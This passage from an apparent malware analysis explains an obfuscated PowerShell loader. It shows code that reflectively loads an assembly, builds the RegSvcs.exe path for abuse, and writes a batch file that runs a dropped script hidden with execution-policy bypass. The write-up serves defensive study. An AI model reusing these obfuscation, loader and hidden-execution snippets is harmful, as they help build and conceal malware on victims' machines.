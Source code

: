 #### 3. Accessing and Executing a Method from the Loaded Assembly


``` powershell
$HM = 'L###############o################a#d' -replace '#', ''
$Fu = [Reflection.Assembly]::$HM($pe)

```

After the assembly is loaded into memory, the script retrieves a specific class from it, named **NewPE2.PE**. This name is also **obfuscated** using `#` symbols, which are replaced to reveal the actual class name. The script then fetches the **Execute** method from this class, which will later be invoked to run the payload.

``` powershell
$NA = 'C:\W#######indow############s\Mi####cr'-replace  '#', ''
$AC = $NA + 'osof#####t.NET\Fra###mework\v4.0.303###19\R##egSvc#####s.exe'-replace  '#', ''
$VA = @($AC, $NKbb)

```

Here, the script builds a path to a specific executable file located in the .NET framework: **RegSvcs.exe**. Again, heavy **obfuscation** is used to hide the actual path. The final path is constructed by piecing together several obfuscated strings, resulting in `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe`. This file is a legitimate part of the .NET framework but is being **misused** here. The `$VA` array is created to hold the path to this executable, and the byte array `$NKbb`, likely to be used as parameters for the **Execute** method.

#### 4. Creating PowerShell and Batch Files

The script then writes several files to the C:\Users\Public directory, ensuring they are easily accessible and executable:

1. **PowerShell Script (Conted.ps1)**
``` powershell
    [IO.File]::WriteAllText("C:\Users\Public\Conted.ps1", $Content)

```
This part of the script creates a PowerShell file, Conted.ps1. Although the content of this script is not shown in the current code snippet, it is likely part of the payload that will be executed later.

2. **Batch File (Conted.bat)**:

``` powershell
$Content = @'
@e%Conted%%Conted% off
set "ps=powershell.exe"
set "Contedms=-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass"
set "cmd=C:\Users\Public\Conted.ps1"
%ps% %Contedms% -Command "& '%cmd%'"
exit /b
'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.bat", $Content)
```
A batch file named **Conted.bat** is also created. This batch file will execute the **PowerShell script** (**Conted.ps1**) in **hidden mode** (`-WindowStyle Hidden`) and bypass the execution policy (`-ExecutionPolicy Bypass`), making it difficult for the user or security software to detect the script's execution.
